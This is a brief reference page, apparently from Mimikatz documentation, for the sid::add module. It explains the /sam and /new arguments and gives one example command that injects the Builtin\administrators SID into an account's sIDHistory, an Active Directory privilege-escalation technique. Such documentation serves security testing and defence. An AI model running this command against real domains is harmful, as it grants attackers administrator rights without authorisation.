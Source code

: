# add

This module can be used to add a SID to `sIDHistory` of an object. It has the following command line argument:

* `/sam`: the `sAMAccountName`.
* `/new`: the new SID value. It also accepts format such as `Builtin\administrators`.

```text
mimikatz # sid::add /sam:username /new:Builtin\administrators
```


